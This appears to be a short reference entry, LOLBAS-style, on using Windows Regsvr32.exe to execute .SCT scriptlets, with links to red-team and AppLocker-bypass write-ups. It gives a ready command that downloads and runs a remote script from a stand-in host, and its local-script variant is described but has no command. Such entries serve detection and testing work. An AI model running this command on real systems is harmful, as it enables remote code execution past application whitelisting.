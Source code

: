 ## Regsvr32.exe
* Functions: Execute
```

regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
Execute the specified remote .SCT script with scrobj.dll.


Execute the specified local .SCT script with scrobj.dll.
```
   
* Resources:   
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md
  * https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  * https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
   
* Full path:   
  * C:\Windows\System32\regsvr32.exe
  * C:\Windows\SysWOW64\regsvr32.exe
   
* Notes: Thanks to Casey Smith - @subtee  
   
